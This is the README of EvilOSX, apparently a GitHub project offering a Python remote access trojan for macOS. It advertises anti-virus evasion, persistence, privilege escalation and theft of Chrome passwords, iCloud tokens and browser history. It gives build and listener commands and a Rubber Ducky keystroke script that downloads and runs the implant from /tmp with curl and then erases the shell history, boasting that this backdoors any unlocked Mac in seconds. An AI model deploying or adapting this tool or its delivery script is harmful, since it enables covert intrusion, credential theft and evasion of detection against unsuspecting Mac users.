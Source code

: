 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="https://i.imgur.com/qiAJP95.png" alt="EvilOSX" width="250"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">A pure python, post-exploitation, RAT (Remote Administration Tool) for macOS / OSX.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/pulls">
      <img src="https://img.shields.io/badge/contributions-welcome-orange.svg">
  </a>
</p>

---

## Features

- Emulate a simple terminal instance
- Undetected by anti-virus (randomized hash, [HTTPS](https://en.wikipedia.org/wiki/HTTPS) communication)
- Multi-threaded
- No client dependencies (pure python)
- Persistent
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/modules/template.py) system
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Download and upload files
- iTunes iOS backup enumeration
- Retrieve browser history (Chrome and Safari)
- Attempt to get root via local privilege escalation
- Auto installer, simply run EvilOSX on your target and the rest is handled automatically.

## How To Use
```bash
# Install urwid (required for the server GUI)
$ sudo pip install urwid

# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Build EvilOSX which runs on your target
$ python builder.py

# Start listening for connections
$ python server/server.py

# Lastly, run the built EvilOSX on your target.
```

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM Also see https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- Takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). Aluminum Keyboard (ISO) is probably the one you are looking for.

## Versioning

EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and client releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Issues

Feel free to submit any issues or feature requests.

## Credits

- The awesome [Empire](https://github.com/EmpireProject) project
- [manwhoami](https://github.com/manwhoami) for his projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt), [iCloudContacts](https://github.com/manwhoami/iCloudContacts)
- The slowloris module is pretty much copied from [PySlowLoris](https://github.com/ProjectMayhem/PySlowLoris)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the GUI
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)